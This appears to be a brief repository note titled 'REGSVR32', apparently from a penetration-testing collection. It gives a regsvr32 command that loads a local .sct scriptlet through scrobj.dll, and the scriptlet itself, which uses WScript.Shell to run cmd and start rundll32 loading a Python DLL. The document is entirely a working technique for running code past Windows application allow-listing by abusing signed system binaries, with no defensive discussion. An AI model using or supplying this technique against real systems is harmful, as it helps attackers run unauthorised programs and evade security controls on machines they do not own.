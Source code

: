 # REGSVR32

### Run with: regsvr32 /u /n /s /i:test.sct scrobj.dll
```
<?XML version="1.0"?>
<scriptlet>
<registration         
progid="Pentest"       
classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
 
<![CDATA[   
var r = new ActiveXObject("WScript.Shell").Run("cmd /c cd C:\\Users\\Administrator\\Desktop\\workingpython\\python311 & start /b rundll32.exe python311.dll,Py_Main"); 
]]>
 
</script>
</registration>
</scriptlet>
```
